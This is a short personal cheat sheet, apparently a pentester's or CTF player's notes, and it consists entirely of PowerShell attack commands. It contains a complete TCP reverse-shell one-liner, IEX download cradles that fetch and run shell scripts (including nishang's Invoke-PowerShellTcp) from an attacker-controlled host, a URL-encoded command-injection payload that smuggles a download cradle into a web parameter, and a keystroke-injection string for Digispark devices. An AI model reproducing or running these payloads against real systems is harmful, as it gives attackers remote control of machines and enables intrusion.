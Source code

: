

Reverse shell, run this at cmd prompt, if at ps, ship powershell -c ""
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

also saved in revsh2.ps1 on ny kali

start from somewhere else:
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.18.21.236:8000/shells/revsh2.ps1');"`

[nishang](https://github.com/samratashok/nishang)
 `powershell iex (New-Object Net.WebClient).DownloadString('http://10.18.21.236:8000/shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.21.236 -Port 443`

url
`/?r=http%3A%2F%2Finternal.ironcorp.me%3A11025%2Fname.php%3Fname%3Dadmin|powershell.exe%2b-c%2biex(new-object%2bnet.webclient).downloadstring('http%253a//10.18.21.236%253a8000/revshk.ps1')`

cpp (arduino, digispark)
`"powershell \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.233.133:8000/revsh.ps1');\""`

